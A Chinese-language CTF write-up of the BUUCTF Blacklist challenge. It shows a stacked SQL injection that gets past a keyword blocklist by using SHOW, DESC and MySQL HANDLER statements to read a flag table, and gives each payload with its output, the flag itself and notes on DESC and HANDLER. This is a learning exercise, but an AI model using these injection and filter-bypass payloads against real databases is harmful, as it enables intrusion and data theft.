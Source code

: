 # T3 堆叠注入

> 题目：BUUCTF [GYCTF2020]Blacklist

__0x00 审题__

```
Black list is so weak for you,isn't it
```

下面有一个姿势，要提交，第一反应sql注入，尝试：
1. 输入1'：error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

>  存在注入

2. 输入select：return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);

> 存在过滤，过滤了select，但是还有show

__0x01 解题__

1. 输入 1';show databases;
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}
```
2. 输入：1';show tables;//获取表名
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(1) {
  [0]=>
  string(8) "FlagHere"
}

array(1) {
  [0]=>
  string(5) "words"
}
```
3. 找到"FlagHere"，查看表的结构：1';desc FlagHere;
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```
4. 找到flag，因为select被过滤，找到handle：1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(1) {
  [0]=>
  string(42) "flag{872065ae-0c82-4f2f-9d29-b174e8c16ddc}"
}
```

__0x02 答案__

```
flag{872065ae-0c82-4f2f-9d29-b174e8c16ddc}
```

__0x03 总结__

1. 何为dense
```
desc查看表结构的详细信息
desc table_name;
PS:此处desc是describe的缩写，用法: desc 表名/查询语句
desc降序排列数据
select ename,sal from emp order by sal desc;
手动指定按照薪水由大到小排序(降序关键字desc)
select ename,sal from emp order by sal asc;
手动指定按照薪水由小到大排序(升序关键字asc)
PS:此处desc是descend的缩写，用法select * from 表 order by 字段 desc
```
3. 何为handle
```
handler
写个实例吧感觉好理解一些
创建数据表
create table handler_table(  
    c1 int,   
    c2 varchar(10),   
    c3 int(10) 
);  
insert into handler_table values(2, 'name2', 002);  
insert into handler_table values(5, 'name5', 005);  
insert into handler_table values(1, 'name1', 001);  
insert into handler_table values(4, 'name4', 004);  
insert into handler_table values(3, 'name3', 003);
打开句柄
mysql> handler handler_table open;
查看数据
mysql> handler handler_table read first;
+------+-------+------+
| c1   | c2    | c3   |
+------+-------+------+
|    2 | name2 |    2 |
+------+-------+------+
mysql> handler handler_table read next;
+------+-------+------+
| c1   | c2    | c3   |
+------+-------+------+
|    5 | name5 |    5 |
+------+-------+------+
mysql> handler handler_table read next;
+------+-------+------+
| c1   | c2    | c3   |
+------+-------+------+
|    1 | name1 |    1 |
+------+-------+------+
mysql> handler handler_table read next;
+------+-------+------+
| c1   | c2    | c3   |
+------+-------+------+
|    4 | name4 |    4 |
+------+-------+------+
mysql> handler handler_table read next;
+------+-------+------+
| c1   | c2    | c3   |
+------+-------+------+
|    3 | name3 |    3 |
+------+-------+------+
mysql> handler handler_table read next;
Empty set (0.00 sec)
关闭句柄
mysql> handler handler_table close;
Query OK, 0 rows affected (0.00 sec)
```
[借鉴亿点点](https://blog.csdn.net/weixin_52268949/article/details/122707006)
